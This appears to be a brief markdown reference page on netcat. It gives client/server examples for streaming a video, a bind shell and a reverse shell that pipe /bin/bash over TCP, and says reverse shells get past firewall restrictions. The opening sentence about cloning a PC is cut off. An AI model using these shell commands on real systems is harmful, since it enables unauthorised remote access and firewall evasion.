 Cloning a linux PC is very simple. Suppose your system disk is /dev/sda

### Video streaming

Server (192.168.1.9)
```shell
$ cat video.avi | nc -l 8000
```

Client
```shell
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat

### Remote shell

Server (192.168.1.9)
```shell
$ nc -lv 8000 -e /bin/bash
```

Client
```shell
$ nc 192.168.1.9 8000
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission to install them, then we can create remote shell using netcat also.

### Reverse shell

Server (192.168.1.9)
```shell
$ nc -lv 8000
```

Client
```shell
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections

## See also

- [iproute2](iproute2.md)
- [netstat](netstat.md)
- [network](network.md)
- [nmap](nmap.md)
